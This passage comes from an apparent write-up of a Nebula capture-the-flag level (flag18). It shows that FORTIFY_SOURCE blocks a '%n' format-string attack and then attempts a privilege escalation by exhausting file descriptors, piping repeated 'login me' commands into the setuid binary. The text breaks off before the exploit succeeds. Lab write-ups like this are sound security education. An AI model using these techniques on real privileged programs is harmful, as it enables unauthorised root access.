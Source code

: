 This led me to learn about [stack canaries](https://en.wikipedia.org/wiki/Stack_canary#Stack_canaries), and with this we're out of luck (for a simple solution). This means the code has been compiled with _FORTIFY_SOURCE_ and this also going to prevent string formatting exploits in the `notsupported` function.

```
level18@nebula:/home/flag18$ ./flag18 -v -v -v -d /tmp/flag18/debug
site exec %n
*** %n in writable segment detected ***
Aborted
```

Yup. In the process of researching this I also discovered a neat tool called [checksec.sh](https://trapkit.de/tools/checksec.html) that can help identify these compiler options early on.

So what have we got left? The function that checks the password file. If it's not actually able to find the password file, it will log us in. Unfortunately we're not able to delete it. However we can make the `fopen` call fail another way. This error has happened a lot at work where we often deal with a lot of files being open on a single system. Linux systems have a limit as to how many filedescriptors it can have open at any one time. Because the tool doesn't close the file descriptors until you call `closelog`, we can just keep opening files until we hit the limit. Let's see what that limit is.

```
level18@nebula:/home/flag18$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 1817
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 1817
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```

_1024_ is the limit. So let's open 1024 files and see what happens. As we have a few file descriptors open already we just need to open 1021 more.

```
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
./flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

Ah, so many file descriptors we can't open any more, not even to shared libraries. We can close one and see how that goes.
